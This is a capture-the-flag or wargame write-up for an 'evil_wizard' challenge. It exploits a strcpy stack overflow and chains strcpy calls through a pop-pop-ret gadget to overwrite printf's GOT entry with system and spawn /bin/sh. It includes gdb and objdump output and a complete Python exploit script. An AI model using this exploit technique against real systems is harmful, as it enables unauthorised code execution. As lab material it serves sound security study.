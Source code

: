 # Vulnerability
```c
char buffer[256];
strcpy(buffer, argv[1]);
```
This program uses strcpy function that does not check boundary.

# Exploitation
```c
// save sfp 
	memcpy(saved_sfp, buffer+264, 4);

// restore sfp 
memcpy(buffer+264, saved_sfp, 4);

// disturbance RET sleding
memset(buffer+length, 0, (int)0xff000000 - (int)(buffer+length));
```
By this code, I am not able to do RET Sleding and it removes all data except my argv[1].

But this challenge gives me some potion:
```c
// healing potion for you
        setreuid(geteuid(), geteuid());
        setregid(getegid(), getegid());
// magic potion for you

void pop_pop_ret(void)
{
	asm("pop %eax");
	asm("pop %eax");
	asm("ret");
}
```
This code gives me assembly code and permission.

To call function continously, I should not use library address because it starts with '\x00'.

So I will use `GOT Overwrite` that is a technic which overwrites GOT address with another function's GOT.

I change printf's GOT address with system's GOT then when I call printf function, system function will executed.

The payload will be:
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
| A*268 | strcpy | pop pop ret | printf's got | system's got[1] | strcpy | pop pop ret | printf's got + 1 | system's got[2] | strcpy | pop pop ret | printf's got + 2 | system's got[3] | strcpy | pop pop ret | printf's got + 3 | system's got[4] | printf's plt | "AAAA" | /bin/sh's address |
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```
First, find strcpy's address(used to got overwrite):
```assembly
0x08048623 <main+207>:	push   %eax
0x08048624 <main+208>:	call   0x8048494 <_init+200>
0x08048629 <main+213>:	add    $0x10,%esp
```
strcpy's address: 0x08048494

Second, find pop pop ret address(used to call function continously):
```assembly
[hell_fire@Fedora_1stFloor ~]$ objdump -d ./evil_wizard | grep "pop" -A 2 | grep "ret" -B 2
 80484e6:	5b                   	pop    %ebx
 80484e7:	c9                   	leave  
 80484e8:	c3                   	ret    
--
0804854c <pop_pop_ret>:
--
 804854f:	58                   	pop    %eax
 8048550:	58                   	pop    %eax
 8048551:	c3                   	ret  
 ```
pop pop ret's address: 0x0804854f

Third, find printf's got address(will be covered with system's got function and called):
```assembly
0x08048686 <main+306>:	push   $0x8048784
0x0804868b <main+311>:	call   0x8048424 <_init+88>
0x08048690 <main+316>:	add    $0x10,%esp
```
Checks 0x08048424's instruction:
```assembly
(gdb) x/3i 0x08048424
0x8048424 <_init+88>:	jmp    *0x8049884
0x804842a <_init+94>:	push   $0x18
0x804842f <_init+99>:	jmp    0x80483e4 <_init+24>
(gdb) p system
$1 = {<text variable, no debug info>} 0x7507c0 <system>
(gdb) 
```
printf's got address: 0x08049884

system's address    : 0x007507c0
# Payload
```python
import os
from struct import *
p = lambda x:pack("<L", x)
target = "/home/hell_fire/evil_wizard"

strcpy_plt = 0x08048494
printf_plt = 0x08048424
pop_pop_ret = 0x0804854f
printf_got = 0x08049884
system_got_1 = 0x0804852c # c0
system_got_2 = 0x08048154 # 07
system_got_3 = 0x080486fa # 75
system_got_4 = 0x080483d4 # 00

payload = ""
payload = payload + "A"*268
payload = payload + p(strcpy_plt) + p(pop_pop_ret) + p(printf_got+0) + p(system_got_1)
payload = payload + p(strcpy_plt) + p(pop_pop_ret) + p(printf_got+1) + p(system_got_2)
payload = payload + p(strcpy_plt) + p(pop_pop_ret) + p(printf_got+2) + p(system_got_3)
payload = payload + p(strcpy_plt) + p(pop_pop_ret) + p(printf_got+3) + p(system_got_4)
payload = payload + p(printf_plt) + "AAAA" + "\x03\x36\x83"

os.execv(target, [target, payload])
```
